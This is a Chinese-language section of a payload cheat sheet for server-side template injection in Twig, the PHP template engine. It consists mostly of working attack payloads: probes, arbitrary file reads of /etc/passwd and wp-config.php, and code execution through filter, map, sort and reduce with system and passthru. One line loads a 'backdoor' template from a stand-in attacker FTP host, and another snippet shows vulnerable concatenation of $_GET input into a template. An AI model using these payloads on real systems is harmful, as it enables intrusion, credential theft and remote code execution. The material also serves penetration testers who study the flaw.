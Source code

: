 
## Twig

[官方网站](https://twig.symfony.com/)

> Twig 是 PHP 的一个现代模板引擎。

### Twig - 基本注入

```python
{{7*7}}
{{7*'7'}} 将结果为 49
{{dump(app)}}
{{dump(_context)}}
{{app.request.server.all|join(',')}}
```

### Twig - 模板格式

```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Twig - 任意文件读取

```python
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}
```

### Twig - 代码执行

```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id']|filter('passthru')}}
{{['id']|map('passthru')}}
```

